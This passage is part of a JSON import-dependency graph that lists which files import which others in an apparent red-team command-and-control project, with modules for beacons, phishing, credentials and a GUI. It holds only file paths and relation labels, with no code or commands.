"modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/process.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/process.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/process.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/process.py", "target": "core/safe_subprocess.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/process.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/prompt.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/safe_console.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/safe_exec.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/safe_subprocess.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/safe_subprocess.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/scheduler.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/security.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/validators.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/validators.py", "target": "core/host_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/validators.py", "target": "core/host_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "discord_c2.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "discord_c2.py", "target": "modules/llm_adapter.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "discord_c2.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "key.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "key.py", "target": "core/prompt.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazy_sentinel4.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazy_sentinel4.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazy_sentinel4.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/app_factory.py", "target": "lazyc2/blueprints/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/app_factory.py", "target": "lazyc2/extensions/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/app_factory.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/app_factory.py", "target": "lazyc2/security/services.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2/blueprints/addons.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2/blueprints/api.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2/blueprints/api_v1.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2/blueprints/auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2/blueprints/beacon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2/blueprints/operations.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/__init__.py", "target": "lazyc2/blueprints/phishing.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/addons.py", "target": "lazyc2/addon_creator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/addons.py", "target": "lazyc2/blueprints/session_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/addons.py", "target": "lazyc2/extensions/decoy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/addons.py", "target": "lazyc2/security/csrf.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api.py", "target": "core/api_authz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api.py", "target": "core/defaults.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api_v1.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api_v1.py", "target": "lazyc2/blueprints/api.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api_v1.py", "target": "modules/beacon_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api_v1.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/api_v1.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/extensions/decoy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/extensions/users.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/extensions/users.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/beacon.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/beacon.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/beacon.py", "target": "modules/credential_reuse.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/beacon.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/operations.py", "target": "lazyc2/blueprints/session_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/operations.py", "target": "lazyc2/extensions/decoy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/operations.py", "target": "lazyc2/extensions/storage.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/phishing.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/phishing.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/phishing.py", "target": "lazyc2/extensions/short_urls.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/phishing.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/blueprints/phishing.py", "target": "modules/security_sanitizers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/extensions/short_urls.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/extensions/storage.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/extensions/users.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/extensions/users.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/extensions/users.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/extensions/users.py", "target": "lazyc2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/extensions/users.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/models.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/security/command_allowlist.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/security/html_sanitizer.py", "target": "lazyc2/security/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/security/services.py", "target": "lazyc2/security/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/security/services.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2/security/validators.py", "target": "lazyc2/security/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/command_allowlist.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/cors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/csrf.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/html_sanitizer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/https_redirect.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/services.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/services.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/services.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/trusted_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/colors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/listener_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/live_surface.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/llm_adapter.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/metrics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/security_sanitizers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/beacon_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/beacon_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/extensions/users.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/lazy_mentions.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/attack_surface3d.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/attack_surface3d.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyc2/blueprints/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/beacon_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/beacon_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/compliance.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/compliance.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/compliance.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/compliance.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/compliance.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/kill_chain_viz.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "skills/daemon_health.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "skills/daemon_health.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/dashboard_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/event_consumers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/credential_reuse.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "skills/lazyown_facts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/event_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyc2.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/__init__.py", "target": "lazygui/version.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/__main__.py", "target": "lazygui/app.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/config/c2_credentials.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/config/paths.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/config/settings.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/services/event_log.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/services/factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/theme/manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/windows/connect_dialog.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/windows/main_window.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/app.py", "target": "lazygui/services/teamserver_backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/config/__init__.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/config/__init__.py", "target": "lazygui/config/paths.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/config/__init__.py", "target": "lazygui/config/settings.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/config/c2_credentials.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/config/paths.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/config/settings.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/config/settings.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/config/settings.py", "target": "lazygui/config/paths.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/campaign_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/credentials_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/cve_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/event_log_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/graph_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/history_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/killchain_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/listeners_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/marketplace_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/sessions_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/__init__.py", "target": "lazygui/panels/terminal_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/base.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/base.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/campaign_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/campaign_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/campaign_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/campaign_panel.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/credentials_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/credentials_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/credentials_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/cve_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/cve_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/cve_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui/services/event_log.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/event_log_panel.py", "target": "lazygui/widgets/event_log_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/graph_panel.py", "target": "lazygui/widgets/graph_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/history_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/history_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/history_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/killchain_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/killchain_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/killchain_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/killchain_panel.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/listeners_panel.py", "target": "lazygui/widgets/filter_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/marketplace_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/marketplace_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/marketplace_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": 